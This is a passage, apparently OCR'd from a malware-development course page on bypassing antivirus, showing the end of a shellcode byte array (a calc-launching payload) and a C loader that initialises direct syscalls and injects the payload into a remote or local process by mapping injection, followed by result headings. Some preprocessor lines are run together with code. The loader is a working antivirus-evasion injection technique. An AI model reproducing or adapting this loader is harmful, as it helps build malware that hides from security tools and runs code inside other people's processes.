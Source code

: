 ```
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};



int main() {

	DWORD		dwProcessId		= NULL;
	HANDLE		hProcess		= NULL;


	if (!InitializeSyscalls()) {
		printf("[!] Failed To Initialize Syscalls Structure \n");
		return -1;
	}


#ifdef TARGET_PROCESSwprintf(L"[i] Targetting Remote Process %s ... \n", TARGET_PROCESS);
	if (!GetRemoteProcessHandle(TARGET_PROCESS, &dwProcessId, &hProcess)) {
		printf("[!] Could Not Find Target Process Id \n");
		return -1;
	}
	printf("[+] Target Process Id Detected Of PID : %d \n", dwProcessId);

	if (!RemoteMappingInjectionViaSyscalls(hProcess, Payload, sizeof(Payload), FALSE)) {
		printf("[!] Failed To Inject Payload \n");
		return -1;
	}


#endif // TARGET_PROCESS#ifndef TARGET_PROCESSif (!RemoteMappingInjectionViaSyscalls((HANDLE)-1, Payload, sizeof(Payload), TRUE)) {
		printf("[!] Failed To Inject Payload \n");
		return -1;
	}

#endif // !TARGET_POCESSreturn 0;
}


```
### **Loader Results**

### **Remote Code Injection**




[![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-216782299-f2e9c796-2d79-42e9-b69d-6e4277f531f4.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-216782299-f2e9c796-2d79-42e9-b69d-6e4277f531f4.png)****Local Code Injection****
